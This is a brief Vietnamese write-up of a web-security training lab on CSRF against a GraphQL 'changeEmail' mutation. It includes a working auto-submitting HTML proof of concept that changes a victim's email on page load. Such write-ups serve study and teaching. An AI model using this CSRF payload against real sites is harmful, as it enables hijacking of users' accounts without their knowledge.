


# Lab: CSRF with GraphQL mutation

**Mục tiêu:** đổi email của nạn nhân bằng cách khai thác mutation `changeEmail` qua CSRF.

**Phát hiện (Detect)**

- Chuyển body sang `Form URL Encoded` để kiểm tra xem GraphQL endpoint có chấp nhận request dạng form hay không.
- Mutation cần gọi là `changeEmail`, với biến `input` chứa email mới.

```http
query=mutation changeEmail($input: ChangeEmailInput!) {
    changeEmail(input: $input) {
        email
    }
}
```



**Khai thác (Exploit)**

- Tạo một CSRF PoC trên exploit server để tự động gửi request tới endpoint GraphQL của nạn nhân.
- Dùng `application/x-www-form-urlencoded` với các trường `query`, `operationName` và `variables`.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form
      action="https://0ab9005a04ee0c988404955400f80083.web-security-academy.net/graphql/v1"
      method="POST"
    >
      <input
        type="hidden"
        name="query"
        value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;"
      />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input
        type="hidden"
        name="variables"
        value='&#123;"input"&#58;&#123;"email"&#58;"hahahaha&#64;hacker&#46;com"&#125;&#125;'
      />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/");
      document.forms[0].submit();
    </script>
  </body>
</html>
```



**Kết quả**

- Gửi exploit cho victim.
- Email của nạn nhân bị đổi thành `hahahaha@hacker.com` và lab được solve.
